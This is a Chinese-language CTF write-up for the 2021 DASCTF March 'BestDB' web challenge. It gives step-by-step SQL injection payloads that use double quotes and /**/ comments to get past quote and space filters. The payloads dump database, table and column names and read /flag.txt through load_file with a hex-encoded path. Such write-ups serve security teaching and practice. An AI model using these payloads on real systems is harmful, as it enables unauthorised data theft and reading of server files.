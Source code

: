```yaml
---
title: 2021 DASCTF三月赛
date: 2021-04-06 22:55:59
updated: 2021-04-06 22:55:59
categories: Write up
---
```


2021 MAR DASCTF 明御攻防赛 Web Writeup

# BestDB

查看源码发现注释

> 

同时通过fuzz,发现过滤了单引号和空格

注释里的sql语句id和username是用OR连接，因为双引号没有被过滤，因此我们可以利用username

![](https://img.npfs06.top/20210406142203.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



测试得出回显位为1、2

查数据库名

```sql
-1"union/**/select/**/1,database(),3"

#users
```

查表名

```sql
-1"union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/database()),3"

#f1agdas,users
```

查列名

```sql
-1"union/**/select/**/1,(select/**/f1agdas/**/from/**/f1agdas/**/where/**/id=1),3"
#flag.txt
```



读flag.txt

```sql
-1"/**/union/**/select/**/1,(select(substr(load_file(0x2f666c61672e747874),1,100))),3"
```

